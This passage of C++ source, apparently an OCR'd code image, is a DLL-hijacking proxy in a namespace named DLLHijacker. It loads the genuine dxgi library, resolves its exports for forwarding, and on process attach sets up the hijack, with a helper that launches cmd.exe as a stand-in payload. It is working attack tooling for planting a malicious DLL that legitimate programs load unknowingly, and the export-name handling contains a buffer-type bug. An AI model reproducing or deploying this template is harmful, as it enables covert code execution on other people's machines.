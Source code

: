 ```
{
        TCHAR tzPath[MAX_PATH];
        lstrcpy(tzPath, TEXT("dxgi"));
        m_hModule = LoadLibrary(tzPath);
        if (m_hModule == NULL)
            return FALSE;
        return (m_hModule != NULL);
    }

    FARPROC WINAPI GetAddress(PCSTR pszProcName)
{
        FARPROC fpAddress;
        CHAR szProcName[16];
        fpAddress = GetProcAddress(m_hModule, pszProcName);
        if (fpAddress == NULL)
        {
            if (HIWORD(pszProcName) == 0)
            {
                wsprintf((LPWSTR)szProcName, L"%d", pszProcName);
                pszProcName = szProcName;
            }
            ExitProcess(-2);
        }
        return fpAddress;
    }
}

using namespace DLLHijacker;



void StartProcess()
{
    STARTUPINFO startInfo = { 0 };

    PROCESS_INFORMATION procInfo = { 0 };

    WCHAR cmdline[] = L"cmd.exe";
    
    CreateProcess(cmdline, NULL, NULL, NULL, FALSE, CREATE_NEW_CONSOLE, NULL, NULL, &startInfo, &procInfo);
}


BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        DisableThreadLibraryCalls(hModule);
        if(Load())
        {
            Hijack_ApplyCompatResolutionQuirking = GetAddress("ApplyCompatResolutionQuirking");
      Hijack_CompatString = GetAddress("CompatString");
      Hijack_CompatValue = GetAddress("CompatValue");
      Hijack_CreateDXGIFactory = GetAddress("CreateDXGIFactory");
      Hijack_CreateDXGIFactory1 = GetAddress("CreateDXGIFactory1");
      Hijack_CreateDXGIFactory2 = GetAddress("CreateDXGIFactory2");
      Hijack_DXGID3D10CreateDevice = GetAddress("DXGID3D10CreateDevice");
```